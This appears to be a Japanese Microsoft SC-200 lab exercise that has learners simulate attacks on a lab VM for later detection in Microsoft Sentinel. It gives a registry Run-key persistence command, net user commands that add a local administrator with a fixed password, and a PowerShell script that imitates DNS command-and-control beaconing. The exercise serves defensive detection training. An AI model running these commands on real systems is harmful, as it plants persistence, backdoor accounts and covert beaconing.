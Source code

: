 ```yaml
---
lab:
  title: 演習 6 - 攻撃の実施
  module: Learning Path 7 - Create detections and perform investigations using Microsoft Sentinel
---
```


# ラーニング パス 7 - ラボ 1 - 演習 6 - 攻撃の実施

## ラボのシナリオ

![ラボの概要。](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex5.png)

後で Microsoft Sentinel での検出と調査に使用する攻撃をシミュレートします。


>                **メモ:** このラボをご自分のペースでクリックして進めることができる、 **[ラボの対話型シミュレーション](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Perform%20simulated%20attacks)** が用意されています。 対話型シミュレーションとホストされたラボの間に若干の違いがある場合がありますが、示されている主要な概念とアイデアは同じです。 


### タスク 1: レジストリ キーの追加による永続化攻撃

>**重要:** 次の手順は、以前に作業していたものとは異なるマシンで行います。 仮想マシン名の参照を探します。

このタスクでは、Azure Arc と Azure Monitor エージェントが構成されたホストに対して攻撃を実行します。

1. パスワード **Pa55w.rd** を使い、管理者として WINServer 仮想マシンにログインします。  

    >**重要:** ラボの "節約" 機能により、WINServer が Azure Arc から切断される可能性があります。この問題は再起動すると解決します。**  

1. Windows で **[開始]** を選択します。 次に、 **[電源]** 、 **[再起動]** の順に選択します。

1. 手順に従って WINServer にもう一度ログインします。

1. タスク バーの検索で、*Command* と入力します。 検索結果にコマンド プロンプトが表示されます。 コマンド プロンプトを右クリックして、 **[管理者として実行]** を選択します。 表示される [ユーザー アカウント制御] ウィンドウで **[はい]** を選択し、アプリを実行できるようにします。

1. コマンド プロンプトで、ルート ディレクトリに Temp フォルダーを作成します。 最後の行の後で忘れずに Enter キーを押してください。

    ```CommandPrompt
    cd \
    mkdir temp
    cd temp
    ```

1. 次のコマンドをコピーして実行し、プログラムの永続化をシミュレートします。

    ```CommandPrompt
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```


### タスク 2: ユーザーの追加による特権昇格攻撃

1. このコマンドをコピーして実行し、管理者アカウントの作成をシミュレートします。 最後の行の後で忘れずに Enter キーを押してください。

    ```CommandPrompt
    net user theusernametoadd /add
    net user theusernametoadd ThePassword1!
    net localgroup administrators theusernametoadd /add
    ```


### タスク 3: DNS を使用したコマンド アンド コントロール攻撃

1. 次のコマンドをコピーして実行し、C2 サーバーに対する DNS クエリをシミュレートするスクリプトを作成します。

    ```CommandPrompt
    notepad c2.ps1
    ```

1. **[はい]** を選択して新しいファイルを作成し、以下の PowerShell スクリプトを *c2.ps1* にコピーします。

    >**注:**  仮想マシンへの貼り付けには長さの制限がある場合があります。 スクリプトが *c2.ps1* ファイル内で次の手順のように見えることを確認してください。

    ```PowerShell
    param(
        [string]$Domain = "microsoft.com",
        [string]$Subdomain = "subdomain",
        [string]$Sub2domain = "sub2domain",
        [string]$Sub3domain = "sub3domain",
        [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
    )
    $RunStart = Get-Date
    $RunEnd = $RunStart.addminutes($RunTime)
    $x2 = 1
    $x3 = 1 
    Do {
        $TimeNow = Get-Date
        Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        if ($x2 -eq 3 )
        {
            Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
            $x2 = 1
        }
        else
        {
            $x2 = $x2 + 1
        }    
        if ($x3 -eq 7 )
        {
            Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
            $x3 = 1
        }
        else
        {
            $x3 = $x3 + 1
        }
        $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
        Start-Sleep -Seconds $Jitter
    }
    Until ($TimeNow -ge $RunEnd)
    ```

1. メモ帳のメニューで、 **[ファイル]** 、 **[保存]** の順に選択します。 

1. コマンド プロンプト ウィンドウに戻り、次のコマンドを入力して Enter キーを押します。 

    >**注:** DNS 解決エラーが表示されます。 これは予期されることです。

    ```CommandPrompt
    Start PowerShell.exe -file c2.ps1
    ```

>**重要:** これらのウィンドウを閉じないでください。 この PowerShell スクリプトをバックグラウンドで実行させておきます。 コマンドは、数時間ログエントリを生成する必要があります。 このスクリプトの実行中に次のタスクや次の演習に進むことができます。 このタスクで作成したデータは、後で脅威の捜索ラボで使用します。 このプロセスでは、大量のデータや処理を作成することはありません。


## 演習 7 に進む
